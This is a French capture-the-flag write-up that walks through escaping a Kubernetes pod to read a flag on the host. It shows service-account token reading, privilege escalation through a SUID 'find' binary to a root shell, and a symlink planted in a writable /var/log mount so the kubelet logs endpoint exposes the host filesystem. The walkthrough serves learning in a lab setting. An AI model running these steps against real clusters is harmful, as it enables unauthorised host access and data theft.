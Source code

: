 # Introduction

```
Les nuages menaçants 3/3

Après avoir exploré tous les recoins du nuage, Proust s'exclame :
« Pouvez-vous en prendre le contrôle ? J'ai toujours voulu pouvoir diriger les nuages !

Connectez-vous au nuage avec le mot de passe suivant : 4GqWrNkNuN
Le challenge peut prendre quelques minutes à se lancer.
Le flag est dans /flag.txt sur l'hôte directement.
```

## Challenge

## Solution

Si on affiche l'environnement :

```sh
$ env
# ...
KUBERNETES_SERVICE_PORT_HTTPS=443                                                                        
KUBERNETES_SERVICE_PORT=443
HOSTNAME=start
CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
PWD=/
NAMESPACE=default
HOME=/root
KUBERNETES_PORT_443_TCP=tcp://10.43.0.1:443
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=10.43.0.1
SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
KUBERNETES_SERVICE_HOST=10.43.0.1
KUBERNETES_PORT=tcp://10.43.0.1:443
KUBERNETES_PORT_443_TCP_PORT=443
APISERVER=10.43.0.1:443
# ...
```

Initialiser son accès à l'API :

```sh
export APISERVER=${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT_HTTPS}
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
export CACERT=${SERVICEACCOUNT}/ca.crt
alias kurl="curl --cacert ${CACERT} --header \"Authorization: Bearer ${TOKEN}\""

# tester l'api : info cidr et services
kurl -v https://$APISERVER/api

# lister ses permissions depuis le pod
kurl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\"kind\":\"SelfSubjectRulesReview\",\"apiVersion\":\"authorization.k8s.io/v1\",\"metadata\":{\"creationTimestamp\":null},\"spec\":{\"namespace\":\"default\"},\"status\":{\"resourceRules\":null,\"nonResourceRules\":null,\"incomplete\":false}}\x0a' \
    "https://$APISERVER/apis/authorization.k8s.io/v1/selfsubjectrulesreviews"
#> permissions ...
```

On trouve pas plus qu'au challenge du niveau 2.

Se re-connecter au pod du challenge 2 en `ssh` :

```sh
ssh proust@10.42.0.13
> password: ********** # les_nuages
```

Conseil: utiliser `bash` dans le nouveau shell.

Observons nos droits sur ce pod, en reprenant certaines des infos plus haut (**attention, certaines var
d'env ne sont
pas présentes sur ce pod donc il vaut mieux reprendre certaines informations plus haut**) :

```sh
export APISERVER=10.43.0.1:443
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
export CACERT=${SERVICEACCOUNT}/ca.crt
alias kurl="curl --cacert ${CACERT} --header \"Authorization: Bearer ${TOKEN}\""

# lister ses permissions depuis le pod
kurl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' \
    --data-binary $'{\"kind\":\"SelfSubjectRulesReview\",\"apiVersion\":\"authorization.k8s.io/v1\",\"metadata\":{\"creationTimestamp\":null},\"spec\":{\"namespace\":\"default\"},\"status\":{\"resourceRules\":null,\"nonResourceRules\":null,\"incomplete\":false}}\x0a' \
    "https://$APISERVER/apis/authorization.k8s.io/v1/selfsubjectrulesreviews"
```

Il semble que nous ne pouvons que lire les logs (`get`, `list` et `watch` sur `logs` et `nodes/log`).

**Là Il faut le savoir, mais en épluchant un peu Hacktricks, on apprend qu'il existe un exploit de
Kubernetes en utilisant le `/var/log` du pod** :

- https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/abusing-roles-clusterroles-in-kubernetes#hosts-writable-var-log-escape

En cherchant un peu, on trouve les points de montage :

```sh
$ lsblk
NAME    MAJ:MIN RM  SIZE RO TYPE MOUNTPOINTS
vda     252:0    0    3G  0 disk 
|-vda1  252:1    0  2.9G  0 part /var/host/log # <-- intéressant ...
|                                /etc/resolv.conf
|                                /etc/hostname
|                                /dev/termination-log
|                                /etc/hosts
|                                /flag.txt # <-- flag du niveau 2
 # detail more :
$ findmnt                                                                                                
TARGET SOURCE                                                     FSTYPE OPTIONS                         
/      overlay                                                    overla rw,rela                         
|-/flag.txt                                                                                              
|      /dev/vda1[/var/lib/kubelet/pods/636a17ec-7c6b-48f1-b45b-cbef3425098f/volumes/kubernetes.io~configmap/flag/..2023_05_24_22_13_59.3690815660/flag.txt]
|                                                                 ext4   ro,rela                            
|-/etc/hosts                                                                                             
|      /dev/vda1[/var/lib/kubelet/pods/636a17ec-7c6b-48f1-b45b-cbef3425098f/etc-hosts]                      
|                                                                 ext4   rw,rela                         
|-/etc/hostname                                                                                          
|      /dev/vda1[/var/lib/rancher/k3s/agent/containerd/io.containerd.grpc.v1.cri/sandboxes/543c54e6c4c78f088817eebe80822a2ea1b8f9c9407b5ed87e4fd5416c4bb00d/hostname]
|                                                                 ext4   rw,rela                         
|-/etc/resolv.conf                                                                                       
|      /dev/vda1[/var/lib/rancher/k3s/agent/containerd/io.containerd.grpc.v1.cri/sandboxes/543c54e6c4c78f088817eebe80822a2ea1b8f9c9407b5ed87e4fd5416c4bb00d/resolv.conf]
|                                                                 ext4   rw,rela                         
|-/var/host/log                                                                                          
|      /dev/vda1[/var/log]                                        ext4   rw,rela                         
|-/run/secrets/kubernetes.io/serviceaccount                                                              
|      tmpfs                                                      tmpfs  ro,rela  
# ...
```

Il semble que les logs du host soit montés en `rw` sur le pod dans `/var/host/log`.
Il s'agit donc bien du vecteur d'attaque.
**En revanche, nous n'avons aucun droit d'écriture sur ces dossiers pour faire l'exploit selon la doc**.
Il va falloir faire une élévation de privilège. On peut s'aider du lien suivant :

- https://gtfobins.github.io/

Comme nous ne somme pas `sudoer`, vérifions s'il y a un binaire sur lequel le bit suid a été activé :

```sh
# SUID
$ find /usr/bin/ -perm /4000
/usr/bin/find
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/umount
# SGID
$ find /usr/bin/ -perm /2000
/usr/bin/find
/usr/bin/expiry
/usr/bin/wall
/usr/bin/chage
/usr/bin/ssh-agent
# on peut aussi bidouiller sans find avec `qq'
# - 'ws
```

Il y en a même plusieurs x)
Justement, il y a `find` ... utilisons-le pour nous élever :

```sh
$ find . -exec /bin/bash -p \; -quit
$ id
uid=1000(proust) gid=1000(proust) euid=0(root) egid=0(root) groups=0(root),1000(proust)
```

Super !
Maintenant il nous faut revenir à l'exploit du `/var/host/log` et créer les fichiers dont nous avons
besoin :

```sh
ln -fs / /var/host/log/sym
```

Nous allons utiliser l'endpoint du Kubelet, récupéré au début du tuto, pour récupérer les logs.
L'endpoint du Kubelet écoute généralement sur `10.42.0.1:10250` (le `nmap` du niveau précédent nous le
montre bien) :

```sh
$ export KUBELET=10.42.0.1:10250
$ kurl -ksSL https://$KUBELET/logs/
<pre>
<a href="apt/">apt/</a>
<a href="auth.log">auth.log</a>
<a href="boot.log">boot.log</a>
<a href="btmp">btmp</a>
<a href="cloud-init-output.log">cloud-init-output.log</a>
<a href="cloud-init.log">cloud-init.log</a>
<a href="containers/">containers/</a>
<a href="dist-upgrade/">dist-upgrade/</a>
<a href="dpkg.log">dpkg.log</a>
<a href="journal/">journal/</a>
<a href="kern.log">kern.log</a>
<a href="landscape/">landscape/</a>
<a href="lastlog">lastlog</a>
<a href="lxd/">lxd/</a>
<a href="pods/">pods/</a>
<a href="syslog">syslog</a>
<a href="tallylog">tallylog</a>
<a href="ubuntu-advantage-timer.log">ubuntu-advantage-timer.log</a>
<a href="unattended-upgrades/">unattended-upgrades/</a>
<a href="wtmp">wtmp</a>
</pre>
```

On peut bien lister et lire les fichiers dans `/var/host/log` !
Essayons de lister le host en passant par le lien symbolique que nous venons de créer :

```sh
$ kurl -ksSL https://$KUBELET/logs/sym
<pre>
<a href="bin/">bin/</a>
<a href="boot/">boot/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="flag.txt">flag.txt</a>
<a href="home/">home/</a>
<a href="lib/">lib/</a>
<a href="lost+found/">lost+found/</a>
<a href="media/">media/</a>
<a href="mnt/">mnt/</a>
<a href="opt/">opt/</a>
<a href="proc/">proc/</a>
<a href="root/">root/</a>
<a href="run/">run/</a>
<a href="sbin/">sbin/</a>
<a href="snap/">snap/</a>
<a href="srv/">srv/</a>
<a href="sys/">sys/</a>
<a href="tmp/">tmp/</a>
<a href="usr/">usr/</a>
<a href="var/">var/</a>
</pre>
```

Coucou le flag !
Concluons :

```sh
$ kurl -ksSL https://$KUBELET/logs/sym/flag.txt
404CTF{les_journaux_sont_parfois_traitres}
```

